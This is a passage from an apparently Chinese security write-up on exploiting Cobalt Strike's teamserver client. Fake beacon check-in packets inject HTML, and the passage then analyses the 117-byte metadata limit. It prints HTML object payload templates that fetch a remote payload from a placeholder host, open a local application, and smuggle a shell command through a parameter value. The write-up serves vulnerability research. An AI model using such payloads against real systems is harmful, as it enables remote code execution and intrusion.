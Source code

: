 加载远程payload，比如jndi什么的

    
    
    <html><object classid='xxx.xxx.xxx.xxx'><parame name='XXX' value='http://xxx.xxx.xxx.xxx/payload'>  
    

或者是直接打开本地的exe之类的

    
    
    <html><object classid='xxx.xxx.xxx.xxx'><parame name='XXX' value='file:///System/Applications/Calculator.app'>  
    

又或者是命令注入

    
    
    <html><object classid='xxx.xxx.xxx.xxx'><parame name='XXX' value='";open http://www.baidu.com'>  
      
    

是不是这几种的可能性最大？  **关于用哪条链，我这边就不公开了，有兴趣的同学按照这个思路来寻找我相信很快就能在几百个类中找到可能的链了。**
接下来关于payload的长度，这怎么看都得六七十以上了，那么就会引出后续的一些限制问题。

## 0x04 CS自身的限制

大家也都知道如何利用模拟beacon协议来插入img标签了，我这边再简单复述一下
`https://github.com/LiAoRJ/CS_fakesubmit`
这是一个模拟beacon的上线包的脚本，之前是用来打dos用的，现在可以用来插入payload，具体用法github里都有我就不赘述了。当插入数据的长度较长时，我们会发现一个问题：

![](https://gitee.com/fuli009/images/raw/master/public/20220927173751.png)

这里加上长payload后整体的包长度为132字节，而他报错意思是整个空间只有117字节，也就是说payload是有最大长度限制的。我们来更具体的解析一下为什么会有长度限制。先来大概了解一下beacon和team
server之间的交互流程，其实我也是临时百度的文章自己，基本上搜一下就有了类似的协议解析文章。

![](https://gitee.com/fuli009/images/raw/master/public/20220927173753.png)

我也不赘述太多，大家可以先自己看一看文章 `https://www.ijiandao.com/2b/baijia/423712.html`

![](https://gitee.com/fuli009/images/raw/master/public/20220927173754.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220927173757.png)

简单来说分为两部分，第一部分是上线包，上线包是由RSA加密的metadata插在cookie里，这个metadata就是元数据，大体包含一些基本信息比如用户名、主机名、操作系统信息和AES
KEY等。teamserver通过metadata里解析这些数据后显示在首页，从里面获取aes
key后用于后续的任务下发相关的数据加解密。而我们再来看CS的client的首页都有啥

![](https://gitee.com/fuli009/images/raw/master/public/20220927173758.png)

没错，就是这熟悉的几个字段，这些字段中大部分信息都来自于metadata。而metadata里的数据就是我们可以控制的插入到teamserver上进行展示的数据。回到117字节限制问题上来，我们在到CS的代码里看一看

我们来到cs的teamserver的代码里直接搜117:

![](https://gitee.com/fuli009/images/raw/master/public/20220927173759.png)

跟进asymmetricCrypto.java里看看
